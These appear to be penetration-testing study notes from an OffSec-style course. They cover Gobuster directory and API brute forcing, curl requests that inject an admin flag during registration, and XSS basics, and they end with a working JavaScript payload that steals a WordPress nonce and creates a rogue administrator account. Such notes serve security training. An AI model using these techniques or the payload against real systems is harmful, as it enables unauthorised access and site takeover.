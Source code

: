 ### Wapplyzer
https://www.wappalyzer.com/



### Gobuster

-u target ip
-t thread count (default 10)
dir == dir mode, only enumerates files and dirs

```
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5
```

Note: don't forget about `robots.txt` and debugging page content when looking for clues!

## Api Brute Force
-p use a pattern file

```
echo {GOBUSTER}/v1 > pattern;
echo {GOBUSTER}/v2 >> pattern;
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```

-i flag for curl shows response headers
```
curl -i http://192.168.50.16:5002/users/v1
```

login with curl
-d = data
```
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```

can sometimes inject `admin: True` keys into request params
```
curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
```

## Cross Site Scripting (XSS)
stored XSS -> inject exploit payload into db or cache
reflected -> malicious request link
### Cookies
Secure -> only send cookie over encrypted connection
HttpOnly -> deny JS access to cookies

JS code to grab nonce and create new admin user

```
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];

var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```